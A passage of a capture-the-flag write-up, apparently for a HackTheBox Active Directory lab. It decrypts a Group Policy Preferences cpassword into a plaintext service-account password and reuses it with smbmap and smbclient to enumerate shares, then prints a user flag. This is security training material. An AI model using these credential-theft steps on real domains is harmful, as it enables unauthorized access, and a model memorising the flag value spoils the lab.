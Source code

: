 ```xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

We got the username and an encrypted password so we have a tool `gpp-decryptor` that uses the publicly disclosed key to decrypt any given GPP encrypted string.

```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1738953766620/ccd1a13d-60f6-47ae-832f-2f121b7b35db.png align="center")

So, we got the username `SVC_TGS` and the password `GPPstillStandingStrong2k18`. Now, let’s check with these creds if we can read any more shares.

```bash
smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.129.40.252
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1738953947625/017058b9-69ef-4c30-a79a-1402082e6b91.png align="center")

We have read-only access to the Users folder let’s enumerate it.

```bash
smbclient \\\\10.129.40.252\\Users -U active.htb/SVC_TGS%GPPstillStandingStrong2k18
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1738954086456/5fff1edc-12cb-46a6-a31c-a1216d229f59.png align="center")

Looking at the `SVC_TGS` user first.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1738954153036/c12d632b-d5b6-43a2-81f6-353e332bf610.png align="center")

And we got our first flag here.

```bash
cat user.txt
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1738954354961/b20df80c-4191-40d3-8830-427b207c0983.png align="center")

Flag: ***e65c47a4bed41941a1b506f8d6593c76***

We compromised a low-privileged user. Now we need to escalate privileges.

As we are dealing with Active Directory, Kerberos is a network authentication protocol that is used to securely authenticate users to network services. It is a ticket-based protocol, which means that users are authenticated by presenting a ticket that has been issued by a trusted authority.

The three main components of Kerberos are:

* The Key Distribution Center (KDC): The KDC is the central authority that issues tickets and manages the Kerberos database.
    
